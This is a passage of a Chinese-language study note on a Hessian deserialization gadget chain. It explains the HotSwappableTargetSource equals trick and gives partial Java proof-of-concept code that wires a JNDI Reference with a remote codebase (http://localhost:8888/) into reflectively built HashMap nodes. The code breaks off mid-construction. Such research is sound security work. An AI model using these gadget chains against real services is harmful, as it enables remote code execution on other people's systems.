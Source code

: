     ![image-20241021131417216](Hessian/image-20241021131417216.png)
    这个 `equals` 主要比较两个 `HotSwappableTargetSource` 的 `target` 是否相同。不过如果外面的 `target` 是 `XString`，里面的 `target` 是 `ReadOnlyBinding` 就行。

5. 引入 `HotSwappableTargetSource` 的构造如下：
    ```java
    @Test
    public void testXBean() throws Exception{
        // 1. 从底向上写 PoC，先完成 ContextUtil$ReadOnlyBinding 的实例化
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        Context ctx = createWithoutConstructor(WritableContext.class);
        ContextUtil.ReadOnlyBinding readOnlyBinding = new ContextUtil.ReadOnlyBinding("foo", reference, ctx);
        XString xString = new XString("EndlessShw");
        // 2. 创建两个 HotSwappableTargetSource 以包裹 XString 和 readOnlyBinding
        HotSwappableTargetSource hstsXString = new HotSwappableTargetSource(xString);
        HotSwappableTargetSource hstsReadOnlyBinding = new HotSwappableTargetSource(readOnlyBinding);
    
        // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeReadOnlyBinding = nodeDeclaredConstructor.newInstance(0, hstsReadOnlyBinding, "EndlessShw", null);
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, hstsXString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeReadOnlyBinding);
        Array.set(nodeArray, 1, nodeXString);
    